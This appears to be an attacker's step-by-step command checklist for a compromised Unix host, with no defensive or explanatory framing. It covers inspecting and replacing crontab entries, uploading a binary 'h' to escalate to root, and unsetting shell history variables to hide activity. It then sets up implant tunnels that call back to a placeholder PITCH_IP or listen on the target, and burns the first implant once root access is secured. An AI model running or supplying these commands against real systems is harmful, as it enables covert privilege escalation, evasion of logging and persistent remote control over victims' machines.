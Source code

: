 ### on target:
date; date -u
-ls -t /var/log/cron
-ls -t /var/spool/cron
-cat /etc/syslog.conf
crontab -l
-put /current/down/crontab crontab
-cat crontab
crontab crontab
crontab -l
rm crontab
date


id
-put /current/up/h h

## Use h to elevate
-shell
unset HISTFILE
unset HISTFILESIZE
unset HISTSIZE
id
pwd
ls -l
PATH=. h
id

## Are we root? run a new nopen then
## CALLBACK? Set up for callback:
-nrtun NOPENPORT
D=-cPITCH_IP:NOPENPORT PATH=. httpd

## LISTENER? (note the port incremented since first is still there)
PATH=. httpd
-nstun TARGET_IP 32755 

## Once we have a root NOPEN, this apache one can go
exit
exit

## in the apache owned NOPEN
-burn



##############################################
###   REMOTE - second (root) NOPEN window
##############################################
-nstun TARGET_IP 32755 
id
